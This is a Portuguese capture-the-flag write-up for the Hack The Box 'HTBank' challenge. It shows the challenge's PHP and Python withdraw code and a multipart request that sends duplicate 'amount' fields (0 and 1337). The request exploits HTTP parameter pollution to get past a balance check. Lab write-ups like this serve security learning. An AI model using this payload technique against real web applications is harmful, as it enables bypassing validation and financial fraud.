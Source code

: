#ctf 

https://app.hackthebox.com/challenges/HTBank

Para resolver o lab, é preciso burlar o endpoint `/api/withdraw`, pois a função do back vai atualizar no banco o campo `show_flag` para aparecer no site, como mostra os códigos abaixo:

```PHP
# Back
public function index($router){

$amount = $_POST['amount'];
$account = $_POST['account'];

if ($amount == 1337) {
	$this->database->query('UPDATE flag set show_flag=1');
	return $router->jsonify(['message' => 'OK']);
}

return $router->jsonify(['message' => 'We don\'t accept that amount']);
}
```

O primeiro passo é sair do segundo `if` do front ao acessar esse endpoint. Para isso, basta apenas enviar um `amount` com valor 0.

```python
@api.route('/withdraw', methods=['POST'])
@isAuthenticated
def withdraw(decoded_token):
	body = request.get_data()
	amount = request.form.get('amount', '')
	account = request.form.get('account', '')

	if not amount or not account:
		return response('All fields are required!'), 401
	
	user = getUser(decoded_token.get('username'))


	try:
		if (int(user[0].get('balance')) < int(amount) or int(amount) < 0 ):
			return response('Not enough credits!'), 400

		res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", headers={"content-type": request.headers.get("content-type")}, data=body)

		jsonRes = res.json()
		return response(jsonRes['message'])

	except:
		return response('Only accept number!'), 500
```

Porém, no backend o amount deve ser igual a 1337 para pegarmos a flag. A solução então é usar da vulnerabilidade chamada [[Http Parameter Polluition]], enviando dois `amount` um com valor 0 e outro com valor 1337.

```
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="account"

0x95452ddcfc228e491bee2aea55d7a361
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="amount"

0
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="amount"

1337
-----------------------------131246009024406851302182491943--
```


As linguagens de programação têm abordagens distintas para lidar com parâmetros iguais passados a uma função. Por exemplo, em JavaScript, isso resultaria na criação de um vetor; em C#, apenas o primeiro valor seria utilizado; enquanto em PHP, o último valor enviado seria considerado.

So atualizar a página e GG!